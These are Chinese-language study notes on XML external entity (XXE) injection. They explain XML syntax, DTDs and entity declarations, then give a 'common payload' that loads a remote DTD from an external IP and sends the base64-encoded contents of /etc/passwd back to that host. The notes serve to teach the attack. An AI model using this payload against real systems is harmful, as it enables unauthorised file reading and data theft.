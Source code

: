 # xxe

## 链接

https://thief.one/2017/06/20/1/

https://v0w.top/2019/01/20/XXE-note/

https://www.freebuf.com/articles/web/177979.html

https://www.w3school.com.cn/xml/xml_intro.asp

 https://www.anquanke.com/post/id/156227#h2-1 

 https://www.anquanke.com/post/id/155328 

## xml语法基础

xml 是语法类似html

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<note>
<to>George</to>
<from>John</from>
<heading>Reminder</heading>
<body>Don't forget the meeting!</body>
</note>
```

`<note>`:根元素

所有元素均可拥有文本内容和属性（类似 HTML 中）。

#### xml特性

- 所有xml元素必须有关闭标签
- xml标签对大小写敏感
- xml文档必须有根元素
- xml属性值必须加引号
- 在 XML 中，文档中的空格不会被删节

#### xml dtd

这里我们要关注的是外部实体,和引用实体

##### dtd定义

文档类型定义（DTD）可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构。

DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。

##### 内部的 DOCTYPE 声明

假如 DTD 被包含在您的 XML 源文件中，它应当通过下面的语法包装在一个 DOCTYPE 声明中：

```
<!DOCTYPE 根元素 [元素声明]>
```

带有 DTD 的 XML 文档实例：

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE note [			这是DTD内部声明		  <!ELEMENT note (to,from,heading,body)>  
 <!ELEMENT to      (#PCDATA)>  
 <!ELEMENT from    (#PCDATA)>  
 <!ELEMENT heading (#PCDATA)> 
 <!ELEMENT body    (#PCDATA)>
 ]>							
<note>  
<to>George</to>  
<from>John</from>  
<heading>Reminder</heading>  
<body>Don't forget the meeting!</body>
</note>
```

**以上 DTD 解释如下：**

- **!DOCTYPE note** (第二行)定义此文档是 *note* 类型的文档。

- **!ELEMENT note** (第三行)定义 *note* 元素有四个元素：”to、from、heading,、body”

- **!ELEMENT to** (第四行)定义 *to* 元素为 “#PCDATA” 类型

  (之后类似)

**这里有一个小重点Tips：**

- “#PCDATA” 类型为被解析的字符数据（parsed character data）。表示读文件按照XML格式进行解析
- “#CDATA”类型为字符数据（character data）。表示读文件但是不用解析，直接读文件的原始内容

##### dtd元素

`<!ELEMENT 元素名称 类别>`

`<!ELEMENT 元素名称 (元素内容)>`

##### 一个内部实体声明

语法：

```repl
<!ENTITY 实体名称 "实体的值">
```

例子：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo 
[
<!ELEMENT foo ANY >
<!ENTITY xxe "test" >
]
>
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>
```

我们使用 &xxe 对 上面定义的 xxe 实体进行了引用，到时候输出的时候 &xxe 就会被 “test” 替换。

##### 一个外部实体声明

语法：

```
<!ENTITY 实体名称 SYSTEM "URI/URL">
```

例子：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo 
[
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >
]>
<creds>    
<user>&xxe;</user>    
<pass>mypass</pass>
</creds>
```

##### 参数实体：

```xml
<!ENTITY % 实体名称 "实体的值">或者<!ENTITY % 实体名称 SYSTEM "URI">
```

参数实体只能在DTD中调用,调用方法:`%实体名称`







## 有回显的任意文件读取

## 常用payload

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [ 
<!ENTITY % dtd SYSTEM "http://39.108.164.219:60001/evil.txt"> 
%dtd;%int;%send; ]> 

evil.txt
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://39.108.164.219:60000/?p=%file;'>">
```

通过 `<![CDATA[`和 `]]>`将payload包裹起来，使其不解析为XML就可以读取文件

